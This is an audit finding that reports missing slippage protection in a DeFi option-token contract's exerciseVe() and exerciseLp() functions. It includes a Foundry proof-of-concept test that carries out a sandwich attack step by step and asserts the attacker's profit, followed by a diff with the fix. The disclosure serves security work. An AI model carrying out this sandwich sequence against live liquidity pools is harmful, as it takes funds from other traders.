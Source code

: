 Fresh Azure Copperhead

High

# Anyone calling `exerciseVe()` or `exerciseLp()` could suffer a sandwich attack or a loss on the paymentToken due to the lack of slippage protection

## Summary
There is no slippage protection when calculating `paymentAmountToAddLiquidity` in `exerciseVe()` or `exerciseLp()`. resulting in the caller being vulnerable to sandwich attacks.
## Vulnerability Detail
- A OptionToken owner can call `exerciseVe()` or `exerciseLp()` to buy underlying token at a specified discount.
- Then the purchased underlying token will be deposited into `router` together with the caller's paymentToken for lpTokens.
The amount of paymentToken for underlying token and the amount of paymentToken for liquidity are calculated in `getPaymentTokenAmountForExerciseLp()`:
```solidity
    function getPaymentTokenAmountForExerciseLp(uint256 _amount,uint256 _discount) public view returns (uint256 paymentAmount, uint256 paymentAmountToAddLiquidity)
    {
        paymentAmount = _discount == 0 ? 0 : getLpDiscountedPrice(_amount, _discount);
        (uint256 underlyingReserve, uint256 paymentReserve) = IRouter(router).getReserves(underlyingToken, paymentToken, false);
        paymentAmountToAddLiquidity = (_amount * paymentReserve) / underlyingReserve;
    }
```
The amount of paymentToken spent for underlyingToken should be no more than `_maxPaymentAmount`:
```solidity
593:    function _exerciseVe(
594:        uint256 _amount,
595:        uint256 _maxPaymentAmount,
596:        uint256 _discount,
597:        address _recipient
598:    ) internal returns (uint256 paymentAmount, uint256 nftId,uint256 lpAmount) {
...         ...
607:        (uint256 paymentAmount,uint256 paymentAmountToAddLiquidity) =  getPaymentTokenAmountForExerciseLp(_amount,_discount); // TODO decide if we want to have the curve or just always maxlock
608:@>      if (paymentAmount > _maxPaymentAmount)
609:@>          revert OptionToken_SlippageTooHigh();
...         ...
650:    }
```
```solidity
652:    function _exerciseLp(
653:        uint256 _amount,   // the oTOKEN amount the user wants to redeem with
654:        uint256 _maxPaymentAmount, // the 
655:        address _recipient,
656:        uint256 _discount
657:    ) internal returns (uint256 paymentAmount, uint256 lpAmount) {
...         ...
666:        (uint256 paymentAmount,uint256 paymentAmountToAddLiquidity) =  getPaymentTokenAmountForExerciseLp(_amount,_discount);
667:@>      if (paymentAmount > _maxPaymentAmount)
669:@>          revert OptionToken_SlippageTooHigh();
...         ...
716:    }
```
However, there is no slippage protection for `paymentAmountToAddLiquidity`, the caller could pay much more `paymentAmountToAddLiquidity` than expected if the reserves of the pool changed a lot. 

Since the sponsor stated that [the Velocimeter protocol could be deployed on any EVM-compatible chain](https://discord.com/channels/812037309376495636/1257350045976760404/1263288657184559185), it is also possible that either `exerciseVe()` or `exerciseLp()` could suffer a sandwich attack.

Copy below codes to [OptionTokenV4.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/OptionTokenV4.t.sol) and run forge test --match-test testExerciseVeSandwichAttack
```solidity
    function testExerciseVeSandwichAttack() public {
        vm.startPrank(address(owner));
        FLOW.approve(address(oFlowV4), 1000e18);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), 1000e18);

        washTrades();
        vm.stopPrank();

        uint256 daiBalanceBefore = DAI.balanceOf(address(owner2));

        (uint256 underlyingReserve, uint256 paymentReserve) = IRouter(router).getReserves(address(FLOW), address(DAI), false);
        //@audit-info the amount of paymentToken for add liquidity
        uint256 paymentAmountToAddLiquidity = (1000e18 * paymentReserve) /  underlyingReserve;
        //@audit-info the amount of paymentToken for purchasing underlyingToken
        uint256 discountedPrice = oFlowV4.getLpDiscountedPrice(1000e18,20); //oFlowV4.getVeDiscountedPrice(TOKEN_1);

        //@audit-info alice swap 100_000e18 DAI for FLOW before owner2 call exerciseVe()
        address alice = makeAddr("alice");
        DAI.mint(alice, 1_000_000e18);
        FLOW.mint(alice, 1_000_000e18);
        vm.startPrank(alice);
        DAI.approve(address(router), type(uint).max);
        FLOW.approve(address(router), type(uint).max);
        //@audit-info alice add liquidity then manipulate FLOW/DAI price by swapping DAI for FLOW before owner2 calling exerciseVe()
        (, , uint lpAmount) = IRouter(router).addLiquidity(address(FLOW), address(DAI), false, 100_000e18, 100_000e18, 1, 1, alice, block.timestamp);
        IRouter(router).swapExactTokensForTokensSimple(900_000e18, 0, address(DAI), address(FLOW), false, alice, block.timestamp);
        vm.stopPrank();
        //@audit-info owner2 call oFlowV4.exerciseVe()
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), type(uint).max);
        oFlowV4.exerciseVe(1000e18, 1000e18, address(owner2), 20, block.timestamp);
        vm.stopPrank();
        address pair = IRouter(router).pairFor(address(FLOW), address(DAI), false);
        vm.startPrank(alice);
        //@audit-info alice remove liquidity and swap FLOW for DAI to exploit profit
        IERC20(pair).approve(address(router), type(uint).max);
        Router(router).removeLiquidity(address(FLOW), address(DAI), false, lpAmount, 1, 1, alice, block.timestamp);
        IRouter(router).swapExactTokensForTokensSimple(86_532e18, 0, address(FLOW), address(DAI), false, alice, block.timestamp);
        vm.stopPrank();
        uint daiProfit = DAI.balanceOf(alice) - 1_000_000e18;
        uint flowSpent = 1_000_000e18 - FLOW.balanceOf(alice);
        //@audit-info alice spent 4492e18 FLOW for 24578e18 DAI
        assertApproxEqAbs(flowSpent,  4492e18, 1e18);
        assertApproxEqAbs(daiProfit,  24578e18, 1e18);
        uint256 daiBalanceAfter = DAI.balanceOf(address(owner2));
        //@audit-info the amount of paymentToken owner2 paid for adding liquidity
        uint paymentAmountToAddLiquidityAfterSwap = daiBalanceBefore - daiBalanceAfter - discountedPrice;
        //@audit-info paymentAmountToAddLiquidityAfterSwap is almost 30 times of paymentAmountToAddLiquidity
        assertApproxEqAbs(paymentAmountToAddLiquidityAfterSwap/30,  paymentAmountToAddLiquidity, paymentAmountToAddLiquidity/10);
    }
```
## Impact
Anyone calling `exerciseVe()` or `exerciseLp()` could suffer a sandwich attack or a loss on the paymentToken due to the lack of slippage protection.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L286-L295
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L305-L314
## Tool used

Manual Review

## Recommendation
Introduce `maxPaymentAmountToAddLiquidity` parameter as slippage protection for `paymentAmountToAddLiquidity`:
```diff
    function _exerciseVe(
        uint256 _amount,
        uint256 _maxPaymentAmount,
+       uint256 _maxPaymentAmountToAddLiquidity,
        uint256 _discount,
        address _recipient
    ) internal returns (uint256 paymentAmount, uint256 nftId,uint256 lpAmount) {
        ...
        (uint256 paymentAmount,uint256 paymentAmountToAddLiquidity) =  getPaymentTokenAmountForExerciseLp(_amount,_discount); // TODO decide if we want to have the curve or just always maxlock
        if (paymentAmount > _maxPaymentAmount)
            revert OptionToken_SlippageTooHigh();
+       if (paymentAmountToAddLiquidity > _maxPaymentAmountToAddLiquidity)
+           revert OptionToken_SlippageTooHigh();
        ...
    }

    function _exerciseLp(
        uint256 _amount,   // the oTOKEN amount the user wants to redeem with
        uint256 _maxPaymentAmount, // the 
+       uint256 _maxPaymentAmountToAddLiquidity,
        address _recipient,
        uint256 _discount
    ) internal returns (uint256 paymentAmount, uint256 lpAmount) {
        ...
        (uint256 paymentAmount,uint256 paymentAmountToAddLiquidity) =  getPaymentTokenAmountForExerciseLp(_amount,_discount);
        if (paymentAmount > _maxPaymentAmount)
            revert OptionToken_SlippageTooHigh();
+       if (paymentAmountToAddLiquidity > _maxPaymentAmountToAddLiquidity)
+           revert OptionToken_SlippageTooHigh();
        ...
    }
```